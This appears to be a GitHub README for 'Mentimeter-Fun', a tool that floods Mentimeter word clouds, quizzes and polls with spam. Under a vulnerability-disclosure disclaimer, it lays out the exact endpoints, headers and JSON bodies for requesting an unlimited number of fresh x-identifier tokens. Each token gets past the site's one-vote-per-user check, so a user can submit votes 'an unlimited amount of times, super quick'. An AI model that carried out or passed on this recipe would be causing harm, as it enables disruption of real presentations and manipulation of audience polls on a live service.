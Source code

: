 # Mentimeter Fun

**Disclaimer:** I made this project for finding vulnerabilities in the Mentimeter website, and I do not intend to harm Mentimeter or any of its users. 
I hope that the development team can fix these issues, using these examples.

With **Mentimeter-Fun**, you can spam a word cloud, mass-join a quiz, or spam any other interactive presentation.

## How it works:

Every time you send a word cloud for example, the site sends a GET request to https://www.menti.com/core/vote-keys/MENTI_ID/series, which returns something like:

```json
{
   "id":"MENTI_ID",
   "vote_key":"VOTE_KEY",
   "name":"My First Presentation",
   "visible":true,
   "tags":null,
   "theme_id":19009,
   "owner_id": 000000,
   "pace":{
      "mode":"presenter",
      "active":"a_unique_id"
   },
}
```

The `pace["active"]` key is used in https://www.menti.com/core/votes/KEY to send a POST request with the folling request data, 
where `question_type` is the name of the current activity, and `vote` is a list of words being sent to the word cloud:

```json
{
  "question_type": "wordcloud",
  "vote": "word1 word2 word3"
}
```

However, in order to prevent to make sure that each user only submits once each presentation, an `x-identifier` header is required. 

```json
{
"user-agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.159 Safari/537.36",
"x-identifier": "IDENTIFIER"
}
```

We can get this identifer token an unlimited number of times using a POST request to https://www.menti.com/core/identifiers with the following headers:

```json
{"user-agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.159 Safari/537.36"}
```

Which returns:

```json
{"identifier":"IDENTIFIER"}
```

Now check your Mentimeter presentation:

![It works menti](https://github.com/mmbaguette/Mentimeter-Fun/blob/main/example%20images/word%20cloud%20sample.png?raw=true)

You can do this an unlimited amount of times, super quick.
